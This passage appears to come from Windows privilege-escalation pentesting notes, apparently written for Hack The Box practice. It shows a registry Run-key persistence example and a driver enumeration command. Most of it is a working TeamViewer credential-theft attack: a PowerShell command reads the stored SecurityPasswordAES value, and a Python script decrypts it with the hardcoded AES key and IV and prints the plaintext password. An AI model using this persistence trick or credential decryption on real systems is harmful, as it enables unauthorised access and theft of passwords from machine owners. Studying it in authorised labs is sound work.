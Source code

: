 ```powershell
# autorun expample
mkdir "c:\calc" 
copy %windir%\system32\calc.exe c:\calc
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v calc /t REG_SZ /d "C:\calc\calc.exe" /f #需使用管理员权限

```

### Drivers
+ check for possible **third party wierd/vulnerable** drivers

```bat
# /si, 提供有关已签名驱动的信息
driverquery
driverquery /fo  table
driverquery /SI
```

### cve soft
+ windows software with cves
+ teamviewer, password crack
+ visual studio, cefdebug exploit

#### Teamviewer
+ teamviewer password crack
+ htb remote

```powershell
# look at that registry key
cd HKLM:\software\wow6432node\teamviewer\version7

# dumps a list of integers
(get-itemproperty -path .).SecurityPasswordAES
```

decrypt python

```python
#!/usr/bin/env python3
# key and iv, from msf post/windows/gather/credentials/teamviewer_passwords

from Crypto.Cipher import AES

key = b"\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
iv = b"\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
ciphertext = bytes([255, 155, 28, 115, 214, 107, 206, 49, 172, 65, 62, 174, 
                    19, 27, 70, 79, 88, 47, 108, 226, 209, 225, 243, 218, 
                    126, 141, 55, 107, 38, 57, 78, 91])

aes = AES.new(key, AES.MODE_CBC, IV=iv)
password = aes.decrypt(ciphertext).decode("utf-16").rstrip("\x00")

print(f"[+] Found password: {password}")
```
